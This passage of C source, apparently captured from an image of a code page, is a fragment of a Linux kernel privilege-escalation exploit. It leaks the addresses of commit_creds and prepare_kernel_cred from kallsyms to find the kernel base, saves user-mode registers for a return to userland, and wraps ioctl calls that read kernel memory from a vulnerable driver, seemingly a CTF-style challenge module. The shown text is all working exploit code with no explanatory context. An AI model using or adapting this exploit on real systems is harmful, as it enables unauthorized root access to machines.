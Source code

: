 ```c
        exit(0);
    }

    char buf[0x30] = {0};
    while(fgets(buf, 0x30, kallsyms_fd))
    {
        if(commit_creds & prepare_kernel_cred)
            return 0;

        if(strstr(buf, "commit_creds") && !commit_creds)
        {
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &commit_creds);
            printf("commit_creds addr: %p\n", commit_creds);
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("vmlinux_base addr: %p\n", vmlinux_base);
        }

        if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
        {
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &prepare_kernel_cred);
            printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
        }
    }

    if(!(prepare_kernel_cred & commit_creds))
    {
        puts("[*]Error!");
        exit(0);
    }

}

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

void set_off(int fd, long long idx)
{
    printf("[*]set off to %ld\n", idx);
    ioctl(fd, 0x6677889C, idx);
}

void core_read(int fd, char *buf)
{
    puts("[*]read to buf.");
    ioctl(fd, 0x6677889B, buf);

}

void core_copy_func(int fd, long long size)
```